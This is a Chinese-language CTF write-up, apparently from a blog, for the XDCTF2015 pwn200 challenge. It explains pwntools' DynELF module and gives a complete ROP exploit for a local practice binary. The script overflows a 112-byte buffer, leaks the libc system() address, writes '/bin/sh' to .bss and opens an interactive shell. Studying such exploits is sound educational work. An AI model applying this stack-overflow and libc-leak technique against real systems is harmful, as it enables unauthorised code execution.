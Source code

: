 ```yaml
---
title: XDCTF2015-pwn200(DynELF)
date: 2018-03-18 19:40:11
tags: pwn
---
```

该题用到了 DynELF 技术  

DynELF是pwntools中专门用来应对无libc情况的漏洞利用模块，其基本代码框架如下。
```
p = process('./xxx')
def leak(address):
  #各种预处理
  payload = "xxxxxxxx" + address + "xxxxxxxx"
  p.send(payload)
  #各种处理
  data = p.recv(4)
  return data
d = DynELF(leak, elf=ELF("./xxx"))      #初始化DynELF模块 
systemAddress = d.lookup('system', 'libc')  #在libc文件中搜索system函数的地址
```
再看read 函数：
定义函数：ssize_t read(int fd, void * buf, size_t count);  
函数说明：read()会把参数fd 所指的文件传送count 个字节到buf 指针所指的内存中.  若参数count 为0, 则read()不会有作用并返回0. 返回值为实际读取到的字节数, 如果返回0, 表示已到达文件尾或是无可读取的数据,此外文件读写位置会随读取到的字节移动.  

思路：   
1.调用main函数循环利用    
2.泄露出system地址   
3.写入”/bin/sh”    
4.调用system获取shell，在实际调用system前，需要通过三次pop操作来将栈指针指向systemAddress。保证堆栈平衡

查找gadget：
`ROPgadget --binary pwn200 --only "pop|ret"`   
使用：
`0x08048649 : pop esi ; pop edi ; pop ebp ; ret`   

```
from pwn import *
elf = ELF('./pwn200')
io = process('./pwn200')
write_plt = elf.plt['write'] # symbols 也可以
read_plt = elf.plt['read']
main_addr = 0x80483e0 
bss_addr = elf.bss() #用来存储'/bin/sh'
pppr = 0x08048649 

def leak(addr):
    io.recvuntil('Welcome to XDCTF2015~!\n')
    payload = 'a'*112+p32(write_plt)+p32(main_addr)+p32(1)+p32(addr)+p32(4)
    io.sendline(payload)
    msg = io.recv(4)
    return msg

dyn = DynELF(leak,elf=elf)  
sys_addr = dyn.lookup('system','libc')
payload = 'a'*112+p32(read_plt)+p32(pppr)+p32(0)+p32(bss_addr)+p32(8)+p32(sys_addr)+p32(main_addr)+p32(bss_addr)
io.sendline(payload)
io.sendline('/bin/sh\0')
io.interactive()
```
